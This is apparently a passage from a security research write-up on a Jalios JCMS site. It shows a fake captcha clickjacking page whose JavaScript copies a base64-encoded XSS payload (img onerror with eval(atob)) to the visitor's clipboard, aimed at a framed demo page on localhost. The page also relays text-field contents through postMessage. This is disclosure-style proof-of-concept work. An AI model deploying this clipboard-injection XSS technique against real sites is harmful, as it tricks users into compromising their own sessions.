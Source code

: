 With a bit of CSS and imagination, it is possible to create a fake captcha page to make the user copy and paste a malicious string!  
The page is available [here](./html/xss_clickjacking.html):  

![Clickjacking](./img/15.png)

The malicious code is as follows: 
```html
<script>  
  document.getElementById('evil').src = `http://localhost:8000/jalios/docs/jcms/fonts/icomoon/demo.html#testText` 
  window.addEventListener("message", function(event) { 
    if (event.data && event.data.type === "update") { 
      document.getElementById('pasteArea').value = event.data.message; 
    } 
	}, false); 
	if (location.href.indexOf('debug') > 0) { 
		document.getElementById('evil').style.opacity="50%" 
	} 

  function exploit() { 
    b64 = btoa(` 
window.parent.postMessage({ type: "update", message: document.getElementById('testText').value }, "*"); 
document.getElementById('testText').addEventListener('input', (function() { 
	window.parent.postMessage({ type: "update", message: document.getElementById('testText').value }, "*"); 
}), false); 

alert(1) 
`) 
  payload = `\"><img/src/onerror=\"eval(atob('${b64}'))\">` 
  random = btoa("ThisIsAClickJacking") 
  navigator.clipboard.writeText(random+payload+random).then(() => { 
        document.getElementById('step1').style.display = 'none'; 
    document.getElementById('step2').style.display = ''; 
    }, (err) => { 
        console.error(err); 
    }); 
} 

</script>
```

### Demo

<video controls> 
  <source src="./video/xss_clickjacking.mp4" type="video/mp4"> 
</video>

# Jalios Detection
